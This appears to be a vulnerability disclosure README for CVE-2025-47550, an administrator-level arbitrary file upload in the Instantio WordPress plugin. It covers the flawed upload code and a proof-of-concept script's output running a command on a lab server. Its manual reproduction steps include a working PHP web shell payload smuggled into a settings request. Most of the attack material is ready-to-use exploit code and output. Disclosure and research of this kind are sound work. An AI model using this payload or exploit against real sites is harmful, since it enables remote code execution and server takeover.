


# Instantio - Wordpress Plugin <= 3.3.16 - Authenticated (Admin+) Arbitrary File Upload via ins_options_save

The [Instantio](https://wordpress.org/plugins/instantio/) plugin does not sanitize the file types in its options save functionality, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47550.py](./CVE-2025-47550.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
% python3 CVE-2025-47550.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 33750sec preferred_lft 33750sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86119sec preferred_lft 14119sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `ins_options_save` functionality in `/wp-content/plugins/instantio/admin/tf-options/classes/Ins_TF_Settings.php` processes file uploads without enforcing proper file type validation.

Lines [965-972](https://plugins.trac.wordpress.org/browser/instantio/trunk/admin/tf-options/classes/Ins_TF_Settings.php#L965-972) of the `save_options()` function check the HTTP request for $_FILES and only validates the MIME type against a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.

```php
$tf_fonts_extantions = array( 'application/octet-stream' );
for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
    if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
        $tf_font_filename = $_FILES['file']['name'][ $i ];
        move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
    }
}
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Instantio -> Settings`.

2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 

3. Click the `Save` button in the lower right hand corner. 

4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```


5. Forward the request and verify the response indicates success:
```json
{"status":"success","message":"Options saved successfully!"}
```


6. Navigate to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
